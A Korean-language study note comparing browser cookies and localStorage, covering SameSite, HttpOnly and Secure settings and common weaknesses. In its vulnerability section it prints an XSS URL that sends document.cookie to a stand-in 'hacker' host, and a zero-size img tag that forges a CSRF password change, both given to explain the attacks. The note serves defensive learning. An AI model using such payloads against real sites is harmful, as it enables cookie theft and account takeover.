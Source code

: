 # 쿠키? 로컬스토리지?

## 🍪 쿠키

- 개념
  : 사용자의 웹 브라우저에 저장되는 작은 기록 정보 파일

  - 최대 4KB를 가진 매우 작은 양의 데이터로, 방문한 페이지를 저장하거나 유저의 `로그인 정보`를 저장하는 등 다양한 방법으로 사용됨.
  - 문자열(text)만 저장이 가능하다는 제한이 있음.
  - (key, value) 형태로 저장되어 있음.
  - 브라우저 전용 쿠키 저장소에 저장됨.

- 쿠키는 왜 사용하는걸까?

  - 사용자 경험을 높여주기 위해
  - HTTP의 stateless을 보완하기 위해 등장했음.
  - 쿠키를 활용해서 `서버`는 사용자의 브라우저에 데이터를 넣을 수 있음.
  - 반복적인 인증(stateless하기 때문에 서버는 클라이언트가 누구인지 계속 인증을 해주어야 하기 때문)을 피해 사용자 편의를 위한 기능을 제공하기 위해서 사용함.
  - 쿠키는 자동으로 모든 요청에 함께 담겨서 날아간다.

- 특징

  1. 쿠키는 브라우저 단위로 생성됨.
  2. 쿠키는 도메인에 따라 제한이 됨. `ex) youtube에서 생성한 쿠키는 youtube에만 보내짐.`

- 쿠키의 취약점

  1. XSS(Cross Site Scripting)

     - 사용자 브라우저에 스크립트를 실행시켜 정보를 탈취하거나 조작
     - `http://service.com?search=<script>location.href('http://hacker/cookie.php?value='+document.cookie);</script>`

  2. CSRF(Cross-Site Request Forgey)

     - 사용자가 자신의 의지와 무관하게 공격자가 의도한 행동을 하여 특정 웹 페이지를 보안에 취약하게 한다거나 수정, 삭제 등의 작업을 하게 만드는 공격 방법
     - 조작된 요청 정보가 삽인된 게시글을 클릭하면 사용자의 권한으로 의도하지 않은 조작된 요청을 웹 서버에 전송하도록 하여 게시판 설정 변경, 회원 정보 변경, 패스워드 변경 등의 행위가 발생
     - 서버에서 동격이 발생하며, 특정 사이트가 사용자의 브라우저를 신뢰한다는 점을 공격함.
     - 예시) 옥션, 1800만 명의 개인정보가 해킹
       ```
          1. 해커가 아래의 코드가 들어간 담긴 이메일을 보낸다. 이때 이미지의 크기가 0이므로 알지 못한다.
            <img src="http://auction.com/changeUserAcoount?id=admin&password=admin" width="0" height="0">
          2. 옥션 관리자 중 한명이 관리 권하는 가지고 회사 내에서 일을 하는 중 메일을 조회한다.(이때, 브라우저에는 옥션의 관리자 쿠키를 가지고 있다.)
          3. 메일을 열었을 때, 이미지 파일을 받아오기 위해 URL이 열린다.
          4. 해커가 원하는 대로 관리자의 계정의 id와 pw가 admin으로 변한다.
          5. 해커는 해당 아디이와 비밀번호로 로그인해 사용자의 다른 정보를 탈취한다.
       ```

  3. 스니핑
     - 패킷을 가로채 정보 도청 가능

- 어떻게 보안을 강화할 수 있을까?

  1. HTTP Only : JS를 통한 쿠키에 접근을 제한함.
  2. SameSite: 외부 서비스에서 우리 서비스의 데이터를 변경하는 요청을 보내지 못하게 만듦.
  3. Secure: HTTPS 연결을 통해서만 전송됨. 즉, 암호화 되어 전송

  ### 궁금증

  ```
  Q) youtube에서 생성한 쿠키는 youtube에만 보내진다고 했는데 그럼 CSRF에 안전한거 아닌가? 왜 SameSite설정을 해줘야하지?

  A) 쿠키에서 CSRF공격이 취약한 것은 쿠키에 담긴 액세스를 탈취해오기 때문이 아니라 통신 시 쿠키가 자동으로 서버로 같이 넘어가기 때문에 이를 통해 서버의 민감한 정보를 수정할 수 있기 때문임. 기본 설정은 `Lax`로 일부 예외(`HTTP GET method/a href/link href`)에서는 CSRF가 발생할 가능성이 있음. 그렇기 때문에 strict를 사용하는 것을 권장한다고 함. <br/> 예시로 들었던 옥션과 같은 사이트의 공격이 통하지 않게 됨.
  ```

- 퍼스트파티 쿠키? 서드파티쿠키?
  1. 퍼스트파티 쿠키
     - 사용자가 방문하는 웹 사이트에서 직접 생성되는 쿠키
     - 주로 사용자 경험을 향상시키기 위해 사용됨.
  2. 서드 파티 쿠키
     - 사용자가 방문한 웹 사이트가 아닌 다른 도메인에서 생성되는 쿠키
     - 주로 광고 네트워크나 소셜 미디어 플러그인 등 제3자가 생성함.
     - 사용자의 웹 활용을 추적해 맞춤형 광고를 제공하는데 사용됨.
     - 옥션에서 신발을 검색하면 쿠팡에서도 신발을 추천해주는 원리임.
     - 사용자 동의 없이 생성될 수 있음.
- SameSite 설정
  1. None: 크로스 사이트 요청의 경우에도 항상 전동 됨. 즉, 서드 파티 쿠키도 적용 됨.
  2. Strict: 가장 보수적인 정책, Strict로 설정된 쿠키는 크로스 사이트 요청에 전송되지 않음. 서드 파티 쿠키는 전송되지 않고 퍼스트 파티 쿠키만 전송됨.
  3. Lax: Strict에 비해 상대적으로 느슨한 정택. 몇가지 예외적인 요청에 서드 파티 쿠키가 전송됨.
  - 웹 페이지 이동과 "안전한"HTTP 메서드 요청의 경우 전송이 됨.
  - 웹 페이지 이동은 `window.location.replace`등으로의 이동 혹은 302다이렉트를 이용한 이동이 포함됨.
  - "안전한"메서드 요청은? GET처럼 서버의 상태를 바꾸지 않을 거라고 기대되는 요청에는 쿠키가 전송됨.(POST, DELETE와 같은 요청은 전송 안됨.)
  - 이전에는 samestie설정을 명시적으로 하지 않으면 none이였지만 2020년 2월 4일 크롬 80버전이 배포되면서 samesite의 기본 값이 Lax로 변경되었음. (firefox는 2020년 하반기에 적용, brave의 경우 Chromium 기반으로 개발된 브라우저로 동일하게 lax가 기본임.)

## 🖥 로컬스토리지

- 클라이언트측에서 데이터를 저장하는데 사용됨.
- 5MB이상의 데이터를 저장할 수 있어 비교적 큰 데이터도 저장가능
- 사용자의 브라우저에 데이터를 저장하는 방법 중 하나
- 웹 스토리지 DB에 저장됨.

- 쿠키와 다른 점이 뭘까?

  1. 모든 HTTP요청에 데이터를 주고 받을 필요가 없음.
  2. 문자열 뿐만 아니라 object도 저장이 가능함.
  3. 영구저장(수동 삭제 필요, 하지만 이는 쿠키에 만료시간이 있다고 가정했을 경우)

- 특징

  - 로컬스토리지 또한 도메인별로 저장됨.

- 로컬스토리지의 취약점

  - XSS 공격에 취약함.
  - 암호화가 되지 않음.
  - => 저장된 데이터의 위협 수준이 매우 낮아야 함.

- 로컬스토리지에는 주로 어떤 데이터가 저장이 될까?
  - 언어 설정
  - 팝업 설정 정보(ex. 일주일간 보지 않기)

### 궁금증

```
Q) 언어 설정과 팝업 설정 정보와 같은 데이터는 쿠키에 저장해도 되는거 아닌가?
A) 쿠키에 저장해도 무방하다. 하지만 쿠키의 저장소는 로컬스토리지보다 작으며 쿠키는 모든 HTTP요청에 포함되어 가므로 HTTP요청에 필요한 내용이 아니라면? 로컬스토리이지에 넣는 것이 좋을 것 같다.
```

## 결론

- 데이터 전달 방식: 쿠키는 HTTP요청에 자동으로 포함되지만 로컬 스토리지는 임의로 포함해야 포함됨.
- 생성 장소: 쿠키는 서버에서 생성, 로컬스토리지에는 클라이언트측에서 저장, 생성
- 브라우저 정책: 쿠키는 개인정보 보호 모드 시 자동 차단, 로컬스토리지는 동일 도메인에서 항상 접근 가능

---

[쿠키의 SameSite 설명1](https://web.dev/articles/samesite-cookies-explained?hl=ko) <br/>
[쿠키의 SameSite 설명2](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions) <br/>
[노마드 코더:세선 vs 토큰 vs 쿠키](https://www.youtube.com/watch?v=tosLBcAX1vk&t=39s)
